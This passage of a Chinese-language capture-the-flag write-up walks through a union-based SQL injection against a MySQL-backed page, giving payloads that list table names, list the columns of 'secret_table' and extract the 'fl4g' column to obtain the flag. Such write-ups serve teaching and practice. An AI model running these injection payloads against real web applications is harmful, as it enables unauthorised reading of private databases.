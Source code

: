 利用database()这个函数，知道数据库名称

![1568206496862](assets/1568206496862.png)

**concat()函数**：将多个字符串连接成一个字符串。

**group_concat()**:也一样

先脱出表名

```mysql
Hello' union select 1,database(),group_concat(table_name) from information_schema.tables  where table_schema='news' #
```

![1568206830660](assets/1568206830660.png)

能得到两个表名，很明显secret_table比较有用

接下来就拖表

```mysql
Hello' union select 1,database(),group_concat(column_name) from information_schema.columns  where table_name='secret_table'  #
```

![1568206959265](assets/1568206959265.png)

fl4g应该就是有flag

```mysql
Hello' union select 1,id,fl4g from secret_table #
```

得到了flag